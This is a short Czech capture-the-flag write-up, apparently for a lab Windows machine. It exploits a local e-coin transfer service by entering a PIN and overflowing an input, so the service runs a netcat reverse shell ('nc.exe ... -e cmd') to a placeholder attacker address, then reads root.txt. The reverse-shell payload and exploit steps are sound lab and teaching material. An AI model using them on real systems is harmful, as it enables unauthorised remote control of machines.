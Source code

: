 ### Připojení ke službě a použití PINu
`c:\windows\temp\nc.exe localhost 910`
```
0021
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 100
 [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] 
 [$] Transfering $100 using our e-coin transfer application. 
 [$] Executing e-coin transfer tool: C:\Users\admin\Documents\transfer.exe

 [$] Transaction in progress, you can safely disconnect...
```
Služba spouští transfer.exe, volání by mohlo být zranitelné na buffer overflow.

### Test buffer overflow
`c:\windows\temp\nc.exe localhost 910`
`0021`
`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`
```
[$] Executing e-coin transfer tool: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
Potvrzeno: služba je zranitelná na buffer overflow

### Zneužití zranitelnosti buffer overflow
Příprava netcatu
`nc -lvp 4001`

`c:\windows\temp\nc.exe localhost 910`
`0021`
`99999999999999999999999999999999c:\windows\temp\nc.exe IP.AD.RE.SA 4001 -e cmd`

### Vypsání obsahu souboru root.txt
```
more c:\users\admin\desktop\root.txt
__CENSORED__
```
